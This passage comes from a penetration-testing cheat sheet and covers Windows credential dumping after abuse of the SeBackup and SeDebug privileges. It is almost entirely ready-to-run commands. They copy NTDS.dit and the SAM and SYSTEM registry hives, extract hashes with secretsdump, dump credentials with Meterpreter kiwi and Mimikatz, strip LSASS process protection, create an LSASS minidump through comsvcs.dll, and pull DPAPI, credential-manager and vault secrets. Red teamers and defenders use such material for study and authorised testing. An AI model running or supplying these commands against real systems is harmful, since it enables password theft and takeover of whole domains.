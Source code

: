 		2. **AD**: Copy `NTDS.dit` from the shadow copy:
			```powershell
	    Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit	
	    robocopy /B E:\Windows\NTDS .\ntds ntds.dit
		    ```
	
		3. **Local**: Extract SAM Hashes
	
			```cmd
			reg save HKLM\SYSTEM SYSTEM.SAV
			reg save HKLM\SAM SAM.SAV
			```
	
		4. Export on Kali & retrieve hashes
	
			```bash
			secretsdump.py -ntds [NTDS_FILE] -system [SYSTEM_FILE] LOCAL
			secretsdump.py -system system.sav -sam sam.sav LOCAL
			```

#### SeDebug

Allows to steal credentials from common processes or get a SYSTEM shell, by executing the [Mimikatz](https://github.com/ParrotSec/mimikatz/tree/master/x64) binary 

- [Mimikatz](https://github.com/ParrotSec/mimikatz) / [Invoke-Mimikatz](https://github.com/PowershellMafia/Powersploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) → [All Commands / Techniques](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/cheatsheets/mimikatz-cheatsheet.md)

- Meterpreter Dumping (Dumps credentials using most of the Mimikatz modules)

	1. meterup
	2. pgrep [winlogon/lsass] → migrate [PID]
	3. `load kiwi`
	4. `creds_all`
	5. `hashdump`

- LSASS Dumping (contains some domain hashes)

	```cmd
	mimikatz '"privilege::debug" "token::elevate" "sekurlsa::logonPasswords /patch"'
	```

	- If it doesn't work: LSAIO Bypass
		- `reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa` → Check if Enabled
		- `misc::memssp` → `privilege::debug` → `!+` → `!processprotect /process:lsass.exe /remove`
	- Manual, without mimikatz
                		1. Get PID → `Get-Process lsass`, `tasklist /svc`
                		2. `rundll32 C:\windows\system32\comsvcs.dll, MiniDump [PID] [OUT_DMP] full`
                		3. `pypykatz lsa minidump [DMP_FILE]`     → After DMP is Tranferred to Kali

- RDP / DPAPI / VAULT Dumping

	```cmd
	mimikatz.exe '"privilege::debug" "token::elevate" "sekurlsa::dpapi"'
	mimikatz.exe '"privilege::debug" "token::elevate" "sekurlsa::credman"'
	mimikatz.exe '"privilege::debug" "token::elevate" "vault::cred /patch"'
	```

